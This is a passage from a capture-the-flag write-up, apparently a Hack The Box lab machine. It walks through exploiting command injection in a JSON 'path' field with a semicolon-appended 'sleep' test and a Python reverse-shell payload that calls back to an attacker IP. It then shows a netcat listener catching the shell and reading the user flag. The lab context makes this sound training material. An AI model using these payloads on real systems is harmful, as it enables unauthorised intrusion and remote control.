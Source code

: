 
```
HTTP/1.1 200 OK
Date: Sun, 19 Feb 2023 07:22:30 GMT
Server: uvicorn
content-length: 16
content-type: application/json
Connection: close

{"INFO":"Done!"}
```

So maybe this file is backed up somewhere we can access? Or perhaps we can command inject?

I tried different variations off blind command injection using `sleep` , and sure enough - the server hung for around 10 seconds with the below payload:

```json
{"path": "/etc/passwd;sleep 10;"}
```

So it looks like our app shells out to read and back up the file somewhere, and a simple semi-colon `;` allows us to inject/append other arbitrary shell commands.

I had issues with bash (minimal docker container with only `sh` or `ash` -- possibly alpine?), so I basically created a `sh` reverse shell by using python within our command injected path in the JSON payload:

```json
{
"path": "/etc/passwd;python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.33\",3322));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"
}
```

And looking back at our listening netcat instance we get a reverse shell, from which we can read the user flag!:

```bash
$nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.193 40504
/app # ls /home        
ls /home
svc
/app # ls /home/svc
ls /home/svc
user.txt
/app # cat /home/svc/user.txt
cat /home/svc/user.txt
aa7da69a22677e9f78e4cfcc8d213108
```

## Privilege Escalation

As suspected above, it looks like we're in a docker container, based on the limited environment, and the `/app` volume/working directory containing the application's Dockerfile:
